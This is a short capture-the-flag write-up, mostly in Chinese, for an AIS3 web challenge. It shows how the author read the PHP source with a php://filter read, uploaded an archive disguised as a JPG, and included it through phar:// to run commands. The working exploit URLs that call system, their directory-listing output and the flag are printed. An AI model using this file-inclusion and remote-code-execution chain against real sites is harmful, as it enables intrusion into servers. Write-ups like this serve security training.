


# 4
**Points : 4**

## Description

Find the flag!

https://quiz.ais3.org:23545/


## Write-up

接續上題，在 [index.php](./index.php) 內可以看到上傳被註解了

進去後發現只能上傳JPG檔案，因為是在php內檢查，因此無法使用null byte截斷
可以使用上題方法得到原始碼 `php://filter/read=convert.base64-encode/resource=uploaddddddd`
看了[這篇](https://github.com/lucyoa/ctf-wiki/tree/master/web/file-inclusion)後，其中有一個方法，上傳副檔名為jpg的壓縮檔，然後再用 `?p=zip://image.jpg#file`去get shell。

試了之後發現一直沒又東西出現，後來才發現在 [index.php](./index.php) 中有擋掉 `zip`


看了[這篇](https://lightless.me/archives/include-file-from-zip-or-phar.html)提到`zip`的好朋友 `phar`，都是使用同樣的壓縮手法，差別在於`phar`中是用`/`來分隔而不是`#`

最後使用`phar`，成功Get Shell!!



FLAG : `AIS3{RCEEEEEEEEE_is_soooooooooo_funnnnnnnnnnnn!?!!?!!!} `


```
https://quiz.ais3.org:23545/?p=phar://images/220.132.34.101/OgnapHt4J.jpg/fucksnoopy&e=system&f=ls -al
```
```
total 48 drwxr-x--- 6 root web34 4096 Jun 26 15:23 . 
drwxr-x--- 4 root web34 4096 Jun 25 02:43 .. 
-rw-r----- 1 root web34 799 Jun 26 15:15 about.php 
drwxr-x--- 2 root web34 4096 Jun 25 02:43 css 
-rw-r----- 1 root web34 2658 Jun 26 15:15 header.php 
-rw-r----- 1 root web34 1079 Jun 26 15:15 home.php 
drwx-wx-wt 50 root web34 4096 Jul 5 09:49 images 
drwxr-x--- 2 root web34 4096 Jun 25 02:43 img 
-rw-r----- 1 root web34 605 Jun 26 15:15 index.php 
drwxr-x--- 2 root web34 4096 Jun 25 02:43 js 
-rw-r----- 1 root web34 56 Jun 26 15:15 the_flag2_which_the_filename_you_can_not_guess_without_getting_the_shellllllll1l -rw-r----- 1 root web34 1995 Jun 26 15:15 uploaddddddd.php 
```
```
https://quiz.ais3.org:23545/?p=phar://images/220.132.34.101/OgnapHt4J.jpg/fucksnoopy&e=system&f=cat the_flag2_which_the_filename_you_can_not_guess_without_getting_the_shellllllll1l 
```

